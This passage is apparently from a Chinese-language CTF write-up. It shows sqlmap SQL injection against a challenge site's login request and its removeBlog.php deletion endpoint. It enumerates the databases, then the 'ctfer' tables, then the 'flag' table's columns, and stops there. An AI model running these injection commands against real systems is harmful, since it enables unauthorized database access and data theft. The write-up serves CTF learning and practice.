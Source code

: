 使用**sqlmap**尝试注入

> sqlmap -r "request.txt"

注入成功，自动登录进了**guest**用户页面，瞎翻翻，发现在文章管理中的删除文章处存在注入点，点击删除后地址变为

> url/api/removeBlog.php?id=3

再次构建语句尝试注入

> sqlmap -u url//api/removeBlog.php?id=3 --dbs

得到

> available databases [6]:
> 
> [\*] ctfer
> 
> \[\*] information_schema
> 
> [\*] mysql
> 
> [\*] performance_schema
> 
> [\*] sys
> 
> [*] test

推测flag应当在**ctfer**中，继续注入

>sqlmap -u url//api/removeBlog.php?id=3 -D ctfer --tables

获得表名

![web2-dbs](assets\web2-dbs.png)

构造

> sqlmap -u url//api/removeBlog.php?id=3 -D ctfer -T flag --columns

得到

![web2-col](assets\web2-col.png)
